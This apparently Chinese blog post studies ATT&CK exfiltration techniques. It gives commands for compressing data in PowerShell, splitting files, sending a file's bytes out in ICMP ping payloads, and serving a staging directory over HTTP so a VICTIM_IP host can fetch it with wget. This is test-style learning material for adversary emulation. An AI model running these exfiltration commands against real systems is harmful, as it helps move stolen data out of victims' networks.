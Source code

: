 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之exfiltration
excerpt: "跟着ATT&CK学安全之exfiltration"
categories: [ATT&CK]
comments: true
---
```

#### T1002 - Data Compressed
##### 测试1 Compress Data for Exfiltration With PowerShell
```
dir #{input_file} -Recurse | Compress-Archive -DestinationPath #{output_file}
```
clean up
```
Remove-Item -path #{output_file}
```
其他的不列举了,都是一些简单的压缩命令,没有技术含量
#### T1022 - Data Encrypted
暂时不列举,就是一些带密码的压缩命令
#### T1030 - Data Transfer Size Limits
将文件分割,绕过大小限制
```bash
cd /tmp/
dd if=/dev/urandom of=/tmp/victim-whole-file bs=25M count=1
split -b 5000000 /tmp/victim-whole-file
ls -l
```
#### T1048 - Exfiltration Over Alternative Protocol
##### Exfiltration Over Alternative Protocol - SSH

##### 通过ICMP协议传送数据
`$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path C:\Windows\System32\notepad.exe -Encoding Byte -ReadCount 1024) { $ping.Send("127.0.0.1", 1500, $Data) }`
##### 通过Http协议传送数据
搭建http服务
```bash
cd /tmp/victim-staging-area && python -m SimpleHTTPServer 1337
```
下载
```bash
wget http://VICTIM_IP:1337/victim-file.txt
```